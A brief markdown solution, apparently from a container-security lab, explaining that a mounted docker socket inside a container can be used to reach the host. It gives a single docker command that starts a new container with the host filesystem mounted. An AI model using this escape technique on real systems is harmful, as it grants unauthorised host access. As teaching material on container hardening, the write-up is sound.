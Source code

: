 # Socket Exploit Solution

You will often encounter mounted docker-sockets from within containers, for any variety of purposes.

However, an improperly secured container with the docker socket can be used to gain root access to the system

## Solution

Install the docker client from within the container, then point it at the socket like so, creating a new container with the host filesystem mounted.

`docker -H unix:///root/docker.sock run -it -v /:/root:ro ubuntu:latest`